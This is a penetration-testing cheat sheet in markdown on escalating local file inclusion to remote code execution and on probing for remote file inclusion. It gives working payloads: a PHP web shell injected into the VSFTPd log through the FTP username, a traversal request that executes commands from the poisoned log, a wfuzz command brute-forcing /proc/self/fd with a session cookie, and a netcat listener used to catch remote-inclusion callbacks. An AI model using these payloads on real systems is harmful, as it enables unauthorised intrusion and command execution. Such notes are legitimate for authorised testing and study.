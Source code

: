 - Some Examples:
	- [Guide](https://sec-art.net/2021/10/27/exploiting-local-file-inclusion-lfi-vulnerability-with-proc-self-environ-method-lfi-attacks/)

## VSFTPd  Logs
- Log file location
	```
	/var/log/vsftpd.log
	```
- Poisoning
	```
	ftp -nv $ip
	user '<?php system($_GET['c']); ?>'
	pass ?
	```
- RCE
	```
	?page=../../../var/log/vsftpd.log&c=whoami;
	```
	- Some Examples:
		- [Guide](https://secnhack.in/ftp-log-poisoning-through-lfi/)


## /proc/self/fd
```
wfuzz -c --hw 100 -b 'PHPSESSID=5911rjjoifufku0hbfkcekm7k7' -z range,1-100 "http://192.168.56.120/manage.php?file=../../../../../../proc/self/fd/FUZZ" 
```
- https://medium.com/@Mr.Mad/journey-from-lfi-to-rce-with-proc-self-fd-cb7dc750c813

## PHP Session
- https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/


## phpinfo() file_uploads = on
- https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s

## PHP Wrapper zip://
- https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/



## Others
-   Many others, refer to https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi2rce


# RFI
1. If found `?page=example`
	- `?index=book`
2. Try RFI
	```
	nc -nvlp 4444
	?index=http://10.11.49.241:4444/
	```
	- Look for netcat response if there is response, susceptible to RFI


